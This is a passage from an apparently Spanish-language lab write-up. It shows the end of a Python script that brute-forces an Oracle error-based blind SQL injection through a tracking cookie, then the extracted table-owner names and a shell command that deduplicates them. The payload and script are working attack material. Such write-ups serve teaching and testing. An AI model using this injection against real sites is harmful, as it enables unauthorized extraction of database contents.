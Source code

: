 ```
    time.sleep(2)

    p2 = log.progress("Output")

    with open("output.txt", "w") as f:
        for position in range(1, 423):
            for character in characters:
                cookies = {
                    'TrackingId': "C5PhDxyLUgYK5wqP'||(select case when (substr((select listagg(owner, ' ') within group (order by owner) from all_tables), %d, 1) = '%s') then to_char(1/0) else null end from dual)||'" % (position, character),
                    'session': "BMvtH2Wf9tGi7WdeVufBPzLwygoHxxPD"
                }

                p1.status(cookies['TrackingId'][:150])

                r = requests.get(url, cookies=cookies)

                if r.status_code == 500:
                    output += character
                    f.write(character)
                    f.flush()
                    p2.status(output)
                    break

if __name__ == '__main__':
    makeRequest()
```

`Ejecutamos` el `script` y `obtenemos` todos los `propietarios`

```
# python sqli_conditional_error.py 
[◐] Fuerza bruta: C5PhDxyLUgYK5wqP'||(select case when (substr((select listagg(owner, ' ') within group (order by owner) from all_tables), 1, 1) = '0') then to_char(1/0
[↗] Output: SYSTEM%SYSTEM%XDB%PETER%APEX_040000%MDSYS%XDB%XDB%SYS%SYSTEM%SYS%MDSYS%CTXSYS%SYS%APEX_040000%APEX_040000%CTXSYS%SYSTEM%SYS%CTXSYS%SYSTEM%SYSTEM%XDB%SYSTEM%SYSTEM%MDSYS%MDSYS%SYS%CTXSYS%MDSYS%XDB%SYS%MDSYS%SYS%MDSYS%CTXSYS%APEX_040000%PETER%APEX_040000%MDSYS%XDB%XDB%MDSYS%XDB%PETER%MDSYS%APEX_040000%XDB%SYS%SYS%XDB%APEX_040000%CTXSYS%SYS%SYSTEM%SYS%CTXSYS%CTXSYS%SYSTEM%CTXSYS%PETER%CTXSYS%XDB%XDB%APEX_040000%APEX_04000
```

Para que se vea más claramente vamos a `sustituir` el `%` por un `salto de línea` y vamos a `eliminar` los `duplicados`

```
echo 'SYSTEM%SYSTEM%XDB%PETER%APEX_040000%MDSYS%XDB%XDB%SYS%SYSTEM%SYS%MDSYS%CTXSYS%SYS%APEX_040000%APEX_040000%CTXSYS%SYSTEM%SYS%CTXSYS%SYSTEM%SYSTEM%XDB%SYSTEM%SYSTEM%MDSYS%MDSYS%SYS%CTXSYS%MDSYS%XDB%SYS%MDSYS%SYS%MDSYS%CTXSYS%APEX_040000%PETER%APEX_040000%MDSYS%XDB%XDB%MDSYS%XDB%PETER%MDSYS%APEX_040000%XDB%SYS%SYS%XDB%APEX_040000%CTXSYS%SYS%SYSTEM%SYS%CTXSYS%CTXSYS%SYSTEM%CTXSYS%PETER%CTXSYS%XDB%XDB%APEX_040000%APEX_040000' | tr '%' '\n' | sort -u   
APEX_040000
CTXSYS
MDSYS
PETER
SYS
SYSTEM
XDB
```
